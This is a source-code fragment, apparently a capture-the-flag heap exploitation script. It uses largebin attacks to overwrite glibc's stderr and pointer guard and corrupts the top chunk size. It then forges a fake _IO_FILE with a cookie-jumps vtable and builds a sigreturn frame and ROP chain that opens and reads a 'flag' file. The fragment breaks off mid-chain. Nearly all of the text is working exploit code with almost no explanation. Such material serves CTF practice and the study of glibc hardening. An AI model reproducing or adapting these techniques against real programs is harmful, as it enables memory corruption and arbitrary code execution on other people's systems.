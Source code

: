 ```bash
# largebin attack stderr
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(libc.sym['stderr'] - 0x20))
add(5, 0x430)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(0, 0x410)
add(2, 0x420)
run_opcode()

# largebin attack guard
delete(2)
add(6, 0x430)
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(guard - 0x20))
add(7, 0x450)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(2, 0x420)
add(0, 0x410)

# change top chunk size
delete(7)
add(8, 0x430)
edit(7, 'a' * 0x438 + p64(0x300))
run_opcode()

next_chain = 0
srop_addr = heap_base + 0x2ae0 + 0x10
fake_IO_FILE = 2 * p64(0)
fake_IO_FILE += p64(0)  # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)  # _IO_buf_base
fake_IO_FILE += p64(0)  # _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\x00')
fake_IO_FILE += p64(next_chain)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, '\x00')
fake_IO_FILE += p64(heap_base)  # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xB0, '\x00')
fake_IO_FILE += p64(0)  # _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xC8, '\x00')
fake_IO_FILE += p64(libc.sym['_IO_cookie_jumps'] + 0x40)  # vtable
fake_IO_FILE += p64(srop_addr)  # rdi
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(gadget_addr ^ (heap_base + 0x22a0), 0x11))

fake_frame_addr = srop_addr
frame = SigreturnFrame()
frame.rdi = fake_frame_addr + 0xF8
frame.rsi = 0
frame.rdx = 0x100
frame.rsp = fake_frame_addr + 0xF8 + 0x10
frame.rip = pop_rdi_addr + 1  # : ret

rop_data = [
    pop_rax_addr,  # sys_open('flag', 0)
    2,
    syscall_addr,

    pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
    0,
    pop_rdi_addr,
```